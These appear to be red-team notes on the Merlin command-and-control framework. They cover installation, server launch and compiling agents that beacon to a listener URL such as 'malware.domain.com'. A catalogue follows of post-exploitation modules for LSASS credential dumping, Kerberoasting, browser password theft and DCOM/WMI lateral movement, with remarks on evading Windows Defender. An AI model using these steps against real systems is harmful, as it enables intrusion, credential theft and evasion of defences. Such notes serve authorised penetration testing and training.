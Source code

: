 ```yaml
---
description: https://github.com/Ne0nd0g/merlin
---
```


# Merlin

## Installation

### Install GO

```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```

### Install Merlin

```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```

## Launch Merlin Server

```
go run cmd/merlinserver/main.go -i
```

## Merlin Agents

You can [download precompiled agents](https://github.com/Ne0nd0g/merlin/releases)

### Compile Agents

Go to the main folder _$GOPATH/src/github.com/Ne0nd0g/merlin/_

```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```

### **Manual compile agents**

```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```

## Modules

**The bad news is that every module used by Merlin is downloaded from the source (github) and saved indisk before using it. Forge about usingwell known modules because Windows Defender will catch you!**\


**SafetyKatz** --> Modified Mimikatz. Dump LSASS to file and launch:sekurlsa::logonpasswords to that file\
**SharpDump** --> minidump for the process ID specified (LSASS by default) (Itsais that the extension of the final file is .gz but indeed it is.bin, but is agz file)\
**SharpRoast** -->Kerberoast (doesn't work)\
**SeatBelt** --> Local Security Tests in CS (does not work) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> Compile using csc.exe /unsafe\
**Sharp-Up** -->Allchecks in C# in powerup (works)\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool (doesn't works, need to load: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> impersonates all available users and retrieves a challenge-response for each (NTLM hash for each user) (bad url)\
**Invoke-PowerThIEf** --> Steal forms from IExplorer or make it execute JS or inject a DLL in that process (doesnt work) (and the PS looks like doesnt work either) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> Get browser passwords (works but dont prints the output directory)\
**dumpCredStore** --> Win32 Credential Manager API (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> Detect classic injection in running processes (Classic Injection (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (doesnt works)\
**Get-OSTokenInformation** --> Get Token Info of the running processes and threads (User, groups, privileges, owner… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token\_information\_class)\
**Invoke-DCOM** --> Execute a command (inother computer) via DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> Execute a command in othe PC abusing PowerPoint COM objects (ADDin)\
**Invoke-ExcelMacroPivot** --> Execute a command in othe PC abusing DCOM in Excel\
**Find-ComputersWithRemoteAccessPolicies** --> (not working) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> It dumps all the most interesting parts of group policy and then roots around in them for exploitable stuff. (deprecated) Take a look at Grouper2, looks really nice\
**Invoke-WMILM** --> WMI to move laterally\
**Get-GPPPassword** --> Look for groups.xml, scheduledtasks.xml, services.xmland datasources.xml and returns plaintext passwords (insidedomain)\
**Invoke-Mimikatz** --> Use mimikatz (default dump creds)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Check the privileges of users in computers\
**Find-PotentiallyCrackableAccounts** --> retrieve information about user accounts associated with SPN (Kerberoasting)\
**psgetsystem** --> getsystem

**Didn't check persistence modules**

## Resume

I really like the feeling and the potential of the tool.\
I hope the tool will start downloading the modules from the server and integrates some kind of evasion when downloading scripts.
